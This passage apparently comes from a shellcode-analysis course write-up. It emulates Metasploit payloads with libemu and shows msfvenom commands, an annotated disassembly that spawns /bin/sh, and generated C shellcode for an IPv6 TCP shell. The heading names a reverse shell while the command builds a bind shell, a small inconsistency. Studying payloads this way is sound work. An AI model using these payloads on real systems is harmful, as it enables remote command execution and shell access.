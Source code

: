 ```
               = 0x0041701d =>
                   = "ifconfig";
           = 0x00000000 =>
             none;
     ];
     const char * envp[] = 0x00000000 =>
         none;
) =  0;
skawa@ubuntu:~/libemu/tools/sctest$
```

In addition to displaying the code above, libemu is also able to create a graphical representation of all  instructions and system interrupts that exist in the emulated program.

```
skawa@ubuntu:~/libemu/tools/sctest$ msfvenom -p linux/x86/exec CMD=ifconfig -f raw -a x86 --platform linux | ./sctest -vvv -S -s 100000 -G execve.dot
skawa@ubuntu:~/libemu/tools/sctest$dot execve.dot -T png -o execve.png
skawa@ubuntu:~/libemu/tools/sctest$
```

<img src ="https://github.com/skahwah/skahwah.github.io/blob/master/_data/slae-assignment-5.png?raw=true" />

#### Dissecting the Instructions
```nasm
push byte 0xb         ;push 11 on to the stack
pop eax               ;execve syscall, 11
cwd
push edx              ;push null terminator on to the stack
push word 0x632d      ;push -c
mov edi, esp          ;preserve stack pointer in EDI
push dword 0x68732f   ;next two instructions push /bin/sh
push dword 0x6e69622f
mov ebx, esp          ;move stack pointer in ESP
push edx              ;push null terminator on to the stack
call 0x1              ;get the custom command, ifcondig
push edi              ;stack address restored
push ebx              ;filename /bin/sh
mov ecx, esp          ;ECX contains all arguments for execve
int 0x80              ;execute execve syscall
```


### reverse_ipv6_tcp Payload Creation
Creating a payload for `linux/x86/shell/reverse_ipv6_tcp` in C format.

```
skawa@ubuntu:~/libemu/tools/sctest$ msfvenom -p linux/x86/shell/bind_ipv6_tcp LHOST=::1 -f c -a x86 --platform linux
No encoder or badchars specified, outputting raw payload
Payload size: 120 bytes
Final size of c file: 528 bytes
unsigned char buf[] =
"\x6a\x7d\x58\x99\xb2\x07\xb9\x00\x10\x00\x00\x89\xe3\x66\x81"
"\xe3\x00\xf0\xcd\x80\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x0a\x89"
"\xe1\xb0\x66\xcd\x80\x51\x6a\x04\x54\x6a\x02\x6a\x01\x50\x97"
"\x89\xe1\x6a\x0e\x5b\x6a\x66\x58\xcd\x80\x97\x83\xc4\x14\x59"
"\x5b\x5e\x6a\x02\x5b\x52\x52\x52\x52\x52\x52\x68\x0a\x00\x11"
"\x5c\x89\xe1\x6a\x1c\x51\x50\x89\xe1\x6a\x66\x58\xcd\x80\xd1"
"\xe3\xb0\x66\xcd\x80\x50\x43\xb0\x66\x89\x51\x04\xcd\x80\x93"
"\xb6\x0c\xb0\x03\xcd\x80\x87\xdf\x5b\xb0\x06\xcd\x80\xff\xe1";
skawa@ubuntu:~/libemu/tools/sctest$
```
